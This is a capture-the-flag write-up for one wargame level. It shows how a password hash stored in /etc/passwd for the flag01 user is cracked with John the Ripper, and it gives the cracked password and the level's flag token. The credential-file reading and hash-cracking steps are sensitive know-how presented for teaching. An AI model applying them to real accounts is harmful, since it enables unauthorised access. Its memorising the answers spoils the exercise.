 # Level 01

As `level01` if we run `ls` we don't see anything at our disposal. Unlike first exercice, `find` won't help us. We need to go elsewhere.

A good place to start is to check `/etc/passwd` for more information. It stores users known to the system, so we'll find the list of `levelXX` and `flagXX` among others.

```shell
  $> cat /etc/passwd
  ...
  level00:x:2000:2000::/home/user/level00:/bin/bash
  level01:x:2001:2001::/home/user/level01:/bin/bash
  level02:x:2002:2002::/home/user/level02:/bin/bash
  level03:x:2003:2003::/home/user/level03:/bin/bash
  level04:x:2004:2004::/home/user/level04:/bin/bash
  level05:x:2005:2005::/home/user/level05:/bin/bash
  level06:x:2006:2006::/home/user/level06:/bin/bash
  level07:x:2007:2007::/home/user/level07:/bin/bash
  level08:x:2008:2008::/home/user/level08:/bin/bash
  level09:x:2009:2009::/home/user/level09:/bin/bash
  level10:x:2010:2010::/home/user/level10:/bin/bash
  level11:x:2011:2011::/home/user/level11:/bin/bash
  level12:x:2012:2012::/home/user/level12:/bin/bash
  level13:x:2013:2013::/home/user/level13:/bin/bash
  level14:x:2014:2014::/home/user/level14:/bin/bash
  flag00:x:3000:3000::/home/flag/flag00:/bin/bash
  flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
  flag02:x:3002:3002::/home/flag/flag02:/bin/bash
  flag03:x:3003:3003::/home/flag/flag03:/bin/bash
  flag04:x:3004:3004::/home/flag/flag04:/bin/bash
  flag05:x:3005:3005::/home/flag/flag05:/bin/bash
  flag06:x:3006:3006::/home/flag/flag06:/bin/bash
  flag07:x:3007:3007::/home/flag/flag07:/bin/bash
  flag08:x:3008:3008::/home/flag/flag08:/bin/bash
  flag09:x:3009:3009::/home/flag/flag09:/bin/bash
  flag10:x:3010:3010::/home/flag/flag10:/bin/bash
  flag11:x:3011:3011::/home/flag/flag11:/bin/bash
  flag12:x:3012:3012::/home/flag/flag12:/bin/bash
  flag13:x:3013:3013::/home/flag/flag13:/bin/bash
  flag14:x:3014:3014::/home/flag/flag14:/bin/bash
```

In this file, each entry represent a user. All fields are separated by `:` and the format is:

```shell
  Username:Password:UID:GID:Optional Infos:Home directory:Shell
```

>More informations about the format [here](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).

If we look closer to `flag01` user...

```shell
  $> cat /etc/passwd | grep flag01
  flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

> Unlike all of the other users where the password field is set as `x` which means that this encrypted password is stored in `/etc/shadow`, this one directly stores its hash in this field.

To get the clear password we can give this hashed password to [`john`](https://www.openwall.com/john/) which is an opensource security auditing software.

```shell
  $> echo "42hDRfypTqqnw" > password
  $> john --format=descrypt password
  Using default input encoding: UTF-8
  Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX])
  Proceeding with single, rules:Single
  Press 'q' or Ctrl-C to abort, almost any other key for status
  Almost done: Processing the remaining buffered candidate passwords, if any.
  Proceeding with wordlist:./password.lst
  abcdefg          (?)
  1g 0:00:00:00 DONE 2/3 (2022-01-06 18:00) 7.692g/s 5907p/s 5907c/s 5907C/s raquel..bigman
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.   
```

So, the hashed password `42hDRfypTqqnw` gives us `abcdefg` apprently. We can now connect as `flag01` and get our next flag!

```shell
  $> su flag01
  Password: abcdefg

  $> getflag
  Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```

So, `f2av5il02puano7naaf6adaaf` is the flag for this level.
